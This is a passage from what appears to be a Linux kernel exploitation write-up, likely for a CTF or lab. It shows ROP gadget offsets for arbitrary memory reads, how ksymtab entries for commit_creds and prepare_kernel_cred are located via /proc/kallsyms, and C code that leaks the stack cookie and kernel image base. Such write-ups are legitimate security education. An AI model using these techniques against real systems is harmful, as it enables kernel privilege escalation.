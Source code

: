 For (1), here are the 3 gadgets that I used:
```C
unsigned long pop_rax_ret = image_base + 0x4d11UL; // pop rax; ret
unsigned long read_mem_pop1_ret = image_base + 0x4aaeUL; // mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
unsigned long pop_rdi_rbp_ret = image_base + 0x38a0UL; // pop rdi; pop rbp; ret;
```

The first 2 gadgets can be used to read an arbitrary memory block, by simply popping its address subtract by 0x10 to `rax`. The third gadget is a normal `pop rdi` for functions' parameter.

For (3), here is the structure of an entry in `ksymtab` ([source](https://elixir.bootlin.com/linux/latest/source/include/linux/export.h#L60)):
```C
struct kernel_symbol {
	  int value_offset;
	  int name_offset;
	  int namespace_offset;
};
```

The `value_offset` is what we are interested in, it is simply the offset from the symbol entry's address in `ksymtab` to the actual symbol's address itself (you can verify this by attaching `gdb` to debug and inspect `ksymtab`). To get the address of `ksymtab` entries, we can also read them from `/proc/kallsyms`:
```bash
cat /proc/kallsyms | grep ksymtab_commit_creds
-> ffffffffb7f87d90 r __ksymtab_commit_creds
cat /proc/kallsyms | grep ksymtab_prepare_kernel_cred
-> ffffffffb7f8d4fc r __ksymtab_prepare_kernel_cred
```

To leak the image base address, since we can leak a huge amount of data from the kernel stack, we can attach the debugger and inspect the stack to look for any kernel address that belongs to unaffected region (1). There actually one at offset 38:
```C
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    image_base = leak[38] - 0xa157ULL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_rax_ret = image_base + 0x4d11UL;
    read_mem_pop1_ret = image_base + 0x4aaeUL;
    pop_rdi_rbp_ret = image_base + 0x38a0UL;
    ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
    ksymtab_commit_creds = image_base + 0xf87d90UL;

    printf("[*] Leaked %zd bytes\n", r);
    printf("    --> Cookie: %lx\n", cookie);
    printf("    --> Image base: %lx\n", image_base);
}
```
